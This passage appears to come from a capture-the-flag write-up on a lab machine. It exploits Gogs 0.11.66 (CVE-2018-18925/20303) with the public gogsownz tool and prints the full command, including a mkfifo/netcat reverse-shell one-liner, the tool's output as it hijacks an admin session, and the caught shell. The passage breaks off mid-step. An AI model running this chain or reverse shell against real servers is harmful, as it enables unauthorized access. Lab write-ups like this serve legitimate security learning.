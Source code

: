 There's nothing on the Gogs application, no repo, nothing interesting.

Next I did some research and found there's two CVE's for this version: CVE-2018-18925 and CVE-2018-20303. Gogs 0.11.66 allows remote code execution because it does not properly validate session IDs, as demonstrated by a ".." session-file forgery in the file session provider in file. The other CVE is a directory traversal in the file-upload functionality can allow an attacker to create a file under data/sessions on the server.

There's already a nice exploit available on Github: [https://github.com/TheZ3ro/gogsownz](https://github.com/TheZ3ro/gogsownz)

```
# python3 gogsownz.py http://127.0.0.1:3000/ --burp -C "AogiriTest:test@aogiri123" -v --preauth --rce "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 4444 >/tmp/f" --cleanup
[!] Created Gogsownz
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.
[!] Creds found.
[!] Logging in...
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[i] Exploiting pre-auth PrivEsc...
[+] Uploading admin session as attachment file
[+] Uploaded successfully, preparing cookies for the Path Traversal
[+] Admin session hijacked, trying to login as admin
[i] Signed in as kaneki, is admin True
[i] Current session cookie: '../attachments/9/4/94918be1-7932-44b5-8490-40ff628acf8c'
[+] Got UserID 1
[+] Repository created sucessfully
[+] Setting Git hooks
[+] Git hooks set sucessfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
```

I popped a shell as user `git`:

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:42515.
/bin/sh: can't access tty; job control turned off
/data/git/gogs-repositories/kaneki/gogstest.git $ id
uid=1000(git) gid=1000(git) groups=1000(git)
```

I saved the kaneki public key to the `git` user folder in case I lose my shell:
